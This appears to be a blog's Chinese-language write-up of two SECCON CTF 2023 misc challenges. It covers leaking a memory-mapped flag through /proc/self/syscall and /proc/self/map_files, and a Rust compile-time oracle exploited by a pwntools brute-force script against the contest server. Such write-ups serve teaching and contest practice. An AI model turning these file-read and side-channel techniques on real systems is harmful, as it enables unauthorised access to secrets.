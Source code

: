 ```yaml
---
comment: True
---
```


# SECCON CTF 2023 Quals Writeup

!!! abstract
    第二次打 SECCON，时间比去年早，misc 题目比较少，后面还看了点 pwn。

    24h 比赛，打了第三，进决赛了。

---

## Readme 2023
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)

??? question "题目源码"
    ```python
    import mmap
    import os
    import signal

    signal.alarm(60)

    try:
        f = open("./flag.txt", "r")
        mm = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)
    except FileNotFoundError:
        print("[-] Flag does not exist")
        exit(1)

    while True:
        path = input("path: ")

        if 'flag.txt' in path:
            print("[-] Path not allowed")
            exit(1)
        elif 'fd' in path:
            print("[-] No more fd trick ;)")
            exit(1)

        with open(os.path.realpath(path), "rb") as f:
            print(f.read(0x100))
    ```

很有 SECCON 味道的一道题，题目源码就是很简单的 python。

这里 mmap.mmap 就是调的系统调用，将 flag.txt 映射到了内存中。然后提供了任意文件头 0x100 字节的读取，要求文件路径中不能包含 flag.txt 和 fd。

所以思路就是通过 proc 文件系统来尝试读取内存。如果没有 0x100 字节的限制的话就可以直接在 /proc/self/maps 中读取 flag.txt 的位置，然后再通过 /proc/self/map_files/... 进行读取。

但实际上 maps 输出不到 flag.txt 的位置，所以就要想一些其他办法来得到它的地址。映射后的地址是在 libc 后的，所以它相对于 libc 基址的偏移应该是恒定的。所以就变成了得到 libc 地址的问题了。

maps 还是输出不到 libc，但是可以通过 /proc/self/syscall 来查看当前的系统调用，因为一直在等待输入，所以一直有一条 read 的 syscall，它输出的最后一个值就是 pc，也是在 libc 中的，所以本地 docker 跑几次计算一下偏移就可以了。

```text
path: /proc/self/syscall
b'0 0x7 0x55ad83fc2580 0x1000 0x2 0x0 0x0 0x7fff44d48b38 0x7fcbe603607d\n'
# 0x7fcbe603607d -> 0x7fcbe6120000 偏移 958339
```

```text
path: /proc/self/syscall
b'0 0x7 0x563f1e8376b0 0x400 0x2 0x0 0x0 0x7ffe63b78728 0x7f20e9db807d\n'
path: /proc/self/map_files/7f20e9ea2000-7f20e9ea3000
b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
```

---

## crabox
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)

??? question "题目源码"
    ```python
    import sys
    import re
    import os
    import subprocess
    import tempfile

    FLAG = os.environ["FLAG"]
    assert re.fullmatch(r"SECCON{[_a-z0-9]+}", FLAG)
    os.environ.pop("FLAG")

    TEMPLATE = """
    fn main() {
        {{YOUR_PROGRAM}}

        /* Steal me: {{FLAG}} */
    }
    """.strip()

    print("""
    🦀 Compile-Time Sandbox Escape 🦀

    Input your program (the last line must start with __EOF__):
    """.strip(), flush=True)

    program = ""
    while True:
        line = sys.stdin.readline()
        if line.startswith("__EOF__"):
            break
        program += line
    if len(program) > 512:
        print("Your program is too long. Bye👋".strip())
        exit(1)

    source = TEMPLATE.replace("{{FLAG}}", FLAG).replace("{{YOUR_PROGRAM}}", program)

    with tempfile.NamedTemporaryFile(suffix=".rs") as file:
        file.write(source.encode())
        file.flush()

        try:
            proc = subprocess.run(
                ["rustc", file.name],
                cwd="/tmp",
                stdout=subprocess.DEVNULL,
                stderr=subprocess.DEVNULL,
                timeout=2,
            )
            print(":)" if proc.returncode == 0 else ":(")
        except subprocess.TimeoutExpired:
            print("timeout")
    ```

在 Sandbox 分类里的一道题，比较 misc，考察的是 Rust 编译时宏的使用。

题目大意就是在提供的模板中插入 Rust 代码，并且里面有注释的 flag，server 只会编译这份代码并告诉你是否编译成功（无任何额外信息）。

所以目标也很明确，就是要一个字节一个字节泄漏出 flag 内容。以及只会编译不会运行，能在编译时进行的操作也就是宏了。而且 Rust 中过程宏只能在一个独立的 lib crate 中编写，不能在同一文件中编写并使用过程宏，所以肯定要用声明式宏。

最初的想法是利用宏调用括号可以是大括号的特性来将带有 flag 的注释传入宏中进行匹配处理。但是实际操作发现在这个时候注释就已经被替换掉了，也就是调用的参数是空的而不是一个注释。

所以剩下的方法就是直接读取当前文件，可以使用 `#!rust file!()` 宏获取当前文件名，使用 `#!rust include_str!()` 在编译时读取文件内容。接下来要实现的就是编译时的 assert，可以查到一种写法是可以用的：

```rust
macro_rules! compile_time_assert {
    ($condition:expr, $message:expr) => {
        const _: [(); 0 - !($condition) as usize] = [];
    };
}
compile_time_assert!(..., "");
```

接下来要解决的就是读取文件中任意位置的内容，如果是直接切片的话是不可能得到 const 的，不能在编译时这么搞，所以可以采用指向文件内容的裸指针来操作，即整个程序如下：

```rust
fn main() {
    const PTR: *const u8 = unsafe{ include_str!(file!()).as_ptr().offset(...) };
    macro_rules! compile_time_assert {
        ($condition:expr, $message:expr) => {
            const _: [(); 0 - !($condition) as usize] = [];
        };
    }
    compile_time_assert!(unsafe{ *(PTR) } == '?' as u8, "");

    /* Steal me: SECCON{dummy} */
}
```

这样只有对应 offset 是给定的字符才可以通过编译，否则不行。接下来就可以通过 flag 中的大写字母来得到 flag 内容对应的 offset，然后逐位枚举可行字符进行爆破就可以了。

??? success "exp"
    ```python
    from pwn import *

    # context(log_level="debug")

    temp = """
    const PTR: *const u8 = unsafe{include_str!(file!()).as_ptr().offset(__OFFSET__)};
        const COS: &str = include_str!(file!());
        macro_rules! compile_time_assert {
            ($condition:expr, $message:expr) => {
                const _: [(); 0 - !($condition) as usize] = [];
            };
        }
        compile_time_assert!(unsafe{*(PTR)} == __ASCII__, "1");
    __EOF__
    """.strip()

    offset = 378
    charset = "_abcdefghijklmnopqrstuvwxyz0123456789"
    flag = "SECCON{"

    for i in range(0, 17):
        for char in charset:
            c = str(ord(char))
            length = len(c)
            payload = temp.replace("__OFFSET__", str(offset + i)).replace("__ASCII__", c if length == 3 else c + " ")
            p = remote("crabox.seccon.games", 1337)
            p.sendlineafter(b"):\n", payload.encode())
            res = p.recvline()
            if b":)" in res:
                flag += char
                print(flag)
                break
            p.close()
    ```

flag: **SECCON{ctfe_i5_p0w3rful}**
